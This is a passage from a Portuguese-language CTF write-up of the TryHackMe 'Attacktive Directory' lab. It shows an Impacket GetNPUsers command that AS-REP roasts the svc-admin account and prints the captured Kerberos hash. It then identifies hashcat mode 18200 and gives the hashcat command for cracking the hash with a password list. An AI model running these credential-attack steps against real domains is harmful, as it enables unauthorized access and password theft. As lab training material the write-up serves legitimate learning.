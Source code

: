 ```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Desktop/Try_Hack_Me/AttacktiveDirectory                                       16:59:34
╰──➤ python /usr/share/doc/python3-impacket/examples/GetNPUsers.py -no-pass spookysec.local/svc-admin -dc-ip 10.10.185.51
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for svc-admin
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:f9dc7f8e405ced94d5a484133ec7ce55$c120918b5ea1549e9f8728e82d06f8290df0ef3342d168201252df5e4e1f96d53b5911ed96c12a4876a94ec9fdabed3c2a0ff6624bea2d97f81b6bcff6eea9dbe3d7afb86e10c4cc42a21d6739a8eb8c4c6f91b7a1b036f819f3f437e0564468643e0e25fe736fed951424632e9fc7484ae9ad7bdc94c54d6c09f3e6e5e889d06233718ad41602a4c78b3366a58c9836a365494e82f1a23524bb102fea4606f009360139d8070c2e6d6fe924a3db8f2019f58744882a2e363e611baeb0af3ee82d8ef157de727ac8ddfd757141bd5b319db60b098696a17894c5dd6b43d2f228e2e36c1b44b71b832706707651ceb2e77604
```


### **1.** **Which user account can you query a ticket from with no password?**

Como visto anteriormente, a conta que não requer pré-autenticação é a `"svc-admin"`.

### **2.** **Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC?**

Para isso vamos pesquisar no site [hashcat examples](https://hashcat.net/wiki/doku.php?id=example_hashes) e ver qual tipo de hash é o que encontramos.

Utilizando o inicio do hash "`$krb5asrep`", podemos ver que é um hash do tipo "`Kerberos 5, etype 23, AS-REP`" que tem o hash mode de número "`18200`".

![hash](hashcat.png)

<div class="page"/>

### **3.** **What mode is the hash?**

Como visto anteriormente, o hash mode é o número "`18200`".

### **4.** **Crack the hash with the modified password list provided, what is the user accounts password?**

Para quebrar o hash, vamos utilizar o hashcat com o comando "`hashcat -m 18200 hash.txt passlist.txt`".

Onde temos:

- `-m 18200:` Modo do hash.
- `hash.txt:` Arquivo com o hash.
- `passlist.txt:` Arquivo com a lista de senhas que pode ser encontrada [aqui](https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt).
